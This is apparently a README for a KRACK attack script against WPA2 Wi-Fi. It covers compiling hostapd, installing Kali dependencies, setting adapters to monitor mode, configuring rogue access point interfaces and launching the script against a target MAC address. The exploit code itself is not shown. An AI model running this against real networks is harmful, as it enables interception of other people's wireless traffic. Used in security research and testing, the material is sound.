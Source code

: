 This script is currently not actively supported. The documentation is also not complete.

Before running this script, you must compile hostapd. This only needs to be done once:

	  cd ../hostapd
	  cp defconfig .config
	  make -j 2
	  cd ../
	  ./build.sh

Then you can exece this script. See [our video](https://youtu.be/Oh4WURZoR98?t=47) for example commands.

## Prerequisties
intall the following dependencies on Kali Linux:
 ```
$sudo apt update
$sudo apt install libnl-3-dev libnl-genl-3-dev macchanger pkg-config libssl-dev net-tools git sysfsutils pip tcpdump
```
install the following python package:
```
pip install --user mitm_channel_based
pip install scapy==2.4.3
pip install pycryptodome
```

set all the network interface to monitor
```
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode Monitor
sudo ifconfig wlan0 up
```

## Description
```
KRAckAttack(args.nic_real_mon, args.nic_rogue_ap, args.nic_rogue_mon, args.ssid, args.target, args.dump, args.continuous_csa)
```
- nic_real_mon: nic_real, nic_real_clientack
- nic_rogue_ap: nic_rogue_ap
- nic_rogue_mon: nic_rogue_mon

krack-all-zero-tk.py KRAckAttack class confiure_interfaces()
define wifi interfaces !
1. iw <nic_real> set type monitor
2. <nic_real_clientack> = <nic_real> + sta1
3. iw <nic_real> interface add <nic_real_clientack> type managed

4. (沒特別指定的話) <nic_rogue_mon> = <nic_rogue_ap> + mon
5. iw <nic_rogue_ap> interface add <nic_rogue_mon> type monitor
6. iw <nic_rogue_mon> set type monitor

- nic_real_mon : MERCUSYS MW300UM
- nic_rogue_ap : TP-Link TL-WN722N V2
- nic_rogue_mon: TP-Link AC600

```
python3 ./krack-all-zero-tk.py <nic_real_mon> <nic_rogue_ap> testnetwork --nic-rogue-mon <nic_rogue_mon> --target 60:45:cb:01:ce:4c
```